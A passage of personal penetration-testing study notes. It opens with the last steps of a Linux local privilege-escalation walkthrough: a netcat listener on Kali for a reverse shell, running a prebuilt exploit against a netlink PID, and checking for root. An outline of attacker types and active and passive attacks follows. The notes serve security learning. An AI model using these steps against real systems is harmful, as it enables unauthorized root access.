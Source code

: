 ## STEP 4:
## on Kali start a listener 
nc -lvp 12345

## STEP 5:
## Back on reverse shell start the exploit 
## with the pid you got e.g. 2748 (that from cat /proc/net/netlink)  
./exploit 2748

## STEP 6:
## Go back to kali and in your listener enter 
whoami
```


### Ref: (root privileges)

  * https://samsclass.info/124/proj14/p18xLPE.htm
  

## Basics 

### Type of Attackers



### Attackers 

  * White Hat 
  * Black Hat 
  * Script Kiddies
  * Hacktivist 
  * Nation States
  * Organized Crimes 
  * Bots 

### Active 

  * Denial-of-service 
  * Spoofing 
  * Port Scanning 
  * Network 

### Passive 
 
  * Wiretapping
    * Ethernet 
    * WiFi 
    * USB 
    * Mobile 
 

### Basic Principles


  * (Assessment)
```